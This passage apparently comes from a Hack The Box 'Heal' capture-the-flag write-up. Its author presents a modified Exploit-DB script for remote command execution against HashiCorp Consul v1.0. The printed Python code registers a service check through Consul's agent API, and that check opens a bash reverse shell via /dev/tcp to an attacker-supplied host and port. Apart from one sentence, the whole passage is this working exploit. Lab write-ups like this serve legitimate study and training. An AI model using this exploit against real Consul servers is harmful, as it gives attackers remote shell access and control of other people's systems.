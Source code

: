 ![](/assets/posts/htb-heal/htb-heal-14.png)

I found [this exploit](https://www.exploit-db.com/exploits/51117) and modified it. The modified code is as follows:

```python
# Exploit Title: Hashicorp Consul v1.0 - Remote Command Execution (RCE)
# Date: 26/10/2022
# Exploit Author: GatoGamer1155, 0bfxgh0st
# Vendor Homepage: https://www.consul.io/
# Description: Exploit for gain reverse shell on Remote Command Execution via API
# References: https://www.consul.io/api/agent/service.html
# Tested on: Ubuntu Server
# Software Link: https://github.com/hashicorp/consul

import requests, sys

if len(sys.argv) < 5:
    print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport>\n")
    exit(1)

target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
json = {"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{sys.argv[3]}/{sys.argv[4]} 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}

try:
    requests.put(target, json=json)
    print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
except:
    print("\n[\033[1;31m-\033[1;37m] Something went wrong, check the connection and try again\n")
```
